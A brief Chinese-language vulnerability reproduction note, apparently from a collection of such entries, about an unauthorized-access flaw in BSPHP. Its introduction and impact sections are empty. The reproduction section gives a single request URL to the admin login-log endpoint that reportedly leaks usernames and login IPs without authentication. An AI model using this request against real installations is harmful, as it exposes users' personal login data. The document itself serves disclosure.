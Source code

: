 BSPHP 存在未授权访问漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

该处泄漏的用户名和登陆ip。

```
/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0
```

![image.png](resource/BSPHP%20%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/media/1600850992225-90182999-bbb8-4b08-8b37-ced3c7e1da57.png)